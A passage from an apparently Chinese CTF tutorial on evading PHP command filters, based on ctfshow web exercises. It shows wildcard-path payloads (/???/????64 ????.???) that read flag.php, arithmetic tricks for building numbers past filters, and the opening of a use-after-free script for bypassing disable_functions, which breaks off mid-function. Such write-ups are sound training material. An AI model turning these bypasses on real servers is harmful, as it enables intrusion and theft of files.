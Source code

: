 

**symlink()函数**



### 13、disable_function绕过



### 14、通配符+绝对路径调用命令

![在这里插入图片描述](https://s2.loli.net/2022/12/27/BziCvY1ENDhMFGX.png)

一些常用工具所在目录：

```php
/bin/cat
/bin/base64 flag.php    //base64编码flag.php的内容。
/usr/bin/bzip2 flag.php //将flag.php文件进行压缩，然后再将其下载。
    
/???/????64 ????.???  #/bin/base64 flag.php
/???/???/????2 ????.??? #/usr/bin/bzip2 flag.php
```

例题：ctfshow-web入门55





### 15、使用~$()构造数字

ctfshow-web入门57

```php
$(())=0
$((~$(())))=-1
```

![在这里插入图片描述](https://s2.loli.net/2022/12/27/waXI2Exb8dVoUNi.png)



### 16、 uaf脚本绕过disable_function

例题：ctfshow-web入门72

脚本如下：

```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
```